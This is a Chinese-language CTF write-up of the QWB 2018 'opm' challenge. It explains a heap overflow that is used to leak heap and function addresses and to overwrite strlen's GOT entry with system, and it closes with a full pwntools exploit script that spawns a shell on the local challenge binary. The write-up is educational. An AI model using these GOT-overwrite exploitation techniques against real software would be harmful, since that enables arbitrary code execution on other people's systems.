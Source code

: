 # 强网杯 2018 opm
### 前言
> &nbsp;&nbsp;&nbsp;&nbsp;这篇`WP`是强网杯过去了很久之后才出的, 参考的是[极目楚天舒](https://blog.csdn.net/weixin_40850881/article/details/80058283)师傅的博客, 这位师傅是一位`CTF老赛手`, 最近复出.由于图片中不能`CTRL+F`出文字, 本文章尽量避免使用图片, 除非必要.

### 程序运行
*1. menu*
```
You were invited to beat one punch man!
(A)dd a new role
(S)how all roles
(E)xit

```
*2. Add*
```
A
Your name:
Bill
N punch?
128
<Bill> said he can kill the boss with 80 punches
```
*3. Show*
```
<Bill> said he can kill the boss with 80 punches
You were invited to beat one punch man!
```
*4. Exit*
```
E(退出)
```
### 程序分析
*0.结构体*
```c
struct node{
    char (*print)(struct node n) ; //函数指针
    char* name;
    int name_number;
    int punch;
};
```
*2. 分析*
> &nbsp;&nbsp;&nbsp;&nbsp;这道题没有用到什么高深的堆分配和释放的知识, 就一个词**溢出**. `IDA F5`之后, 发现`Add`过程存在一个溢出漏洞, `s`的下一个位置就是与`node`结构体相关的地址.

![result01](./01.png)

*3. 总体思路*
> &nbsp;&nbsp;&nbsp;&nbsp;泄露堆地址, 泄露`got`地址, 泄露`strlen`真实地址, 修改`got表`中`strlen`项内容为`system`, 发送`/bin/sh\x00`.

### 过程
*1. leak heap*
```python
add("A"*0x70, 9)
add("B"*0x80 + "\xf0", 9) #修改
'''
0x7ffff7fcd700:	0x0000000000000000	        0x0000000000000000
0x7ffff7fcd710:	0x000055c56a558cd0(正确地址)
修改之后
0x7ffff7fcd700:	0x4242424242424242	　　　　　0x4242424242424242
0x7ffff7fcd710:	0x000055c56a5500f0(一块可写区域)
...... 程序将一些信息写入此处
0x55c56a5500f0:	0x0000000000000000	0x000055c56a558d00 <--
0x55c56a550100:	0x0000000000000081	0x0000000000000009   |
'''                                                      |
add("C"*0x80, "D"*0x80 + "\xf0") #leak                   |
'''                                                      |
修改                                                      |
0x7ffff7fcd700:	0x4343434343434343	0x4343434343434343   |
0x7ffff7fcd710:	0x000055c56a558d00 --> 'C'*0x80造成       |
                                                         |
程序将新malloc的地址写入0x55c56a558d00                       |
0x55c56a558d00:	0x4242424242424242	0x000055c56a558dc0    |
0x55c56a558d10:	0x0000000000000080	0x4242424242424242    |
                                                          |
打印("D"*0x80 + "\xf0"), 此时的0x55c56a5500f0还是    --------

'''
```
**结论:** 泄露地址无非就是将地址放入可输入的部分, 然后执行输出函数.

*2. leak function*
```python
add("d" *0x18 + p64(heap + 0x90), '131425' + "F"*0x7a + p64(heap + 0xd0))
'''
"d" *0x18 + p64(heap + 0x90) 如下效果
0x7ffff7fcd690:	0x6464646464646464	0x6464646464646464
0x7ffff7fcd6a0:	0x6464646464646464	0x000055c56a558e50 ---
......                                                   |-----> 二者必须相同
0x7ffff7fcd700:	0x4444444444444444	0x4444444444444444   |
0x7ffff7fcd710:	0x000055c56a558e50	----------------------

'''
#'131425' + "F"*0x7a + p64(heap + 0xd0) 如下效果
```
![result02](./02.png)

**结论:** `131425`是为了防止`top chunk`被赋值为0.
*3. leak strlen address*
```python
add("d"*0x18 + p64(strlen_got), "131329" + "F"*0x7a + p64(heap + 0x130))
```
*小结:* 理解了上一步`leak function`, 这一步原理同上.

*4. modify strlen@got*
```python
add("Bill", str(system_addr & 0xffffffff).ljust(0x80, "G") + p64(strlen_got-0x18))
```
*小结:* 看似程序中没有写入功能, 实际上是存在写入的功能的. 就是`punch`大小的读入, 我们可以写入`system`真实地址的后四个字节,前几个字节都一样, 而且我们也只能写入四个字节.

![result03](./03.png)

### The Whole EXP
```python
from pwn import *

p = process("./opm")
elf = ELF("./opm")
libc = ELF("./opm")

context.log_level = 'debug'

def add(name, number):
    p.recvuntil("(E)xit\n")
    p.sendline("A")
    p.recvuntil("Your name:\n")
    p.sendline(name)
    p.recvuntil("N punch?\n")
    p.sendline(str(number))

def show():
    p.recvuntil("(E)xit\n")
    p.sendline("S")

def quit():
    p.recvuntil("(E)xit\n")
    p.sendline("E")

#part one: leak heap
add("A"*0x70, 9)
gdb.attach(p)
add("B"*0x80 + "\xf0", 9)
add("C"*0x80, "D"*0x80 + "\xf0")
heap = u64(p.recv(15)[9:].ljust(8, "\x00"))
log.info("heap: %s" % hex(heap))

#part two: leak function ptr
add("d" *0x18 + p64(heap + 0x90), '131425' + "F"*0x7a + p64(heap + 0xd0))
func_ptr = u64(p.recv(7)[1:].ljust(8, "\x00"))
log.info("function_ptr: %s" % hex(func_ptr))

#part three: leak strlen real address
base = func_ptr - 0xb30
strlen_got = base + elf.got['strlen']
gdb.attach(p)
add("d"*0x18 + p64(strlen_got), "131329" + "F"*0x7a + p64(heap + 0x130))
strlen = u64(p.recv(7)[1:].ljust(8, "\x00"))
log.info("real strlen: %s" % hex(strlen))

#part four: modify strlen got
system_addr = strlen - 0x46390
log.info("system: %s" % hex(system_addr))
gdb.attach(p)
add("Bill", str(system_addr & 0xffffffff).ljust(0x80, "G") + p64(strlen_got-0x18))
add("/bin/sh\x00", 8)
p.interactive()
```
### Related Link
[极目楚天舒](https://blog.csdn.net/weixin_40850881/article/details/80058283)
[文件下载](https://github.com/BBS-Bill-Gates/CTF/tree/master/2018/ichunqiu/opm/opm)
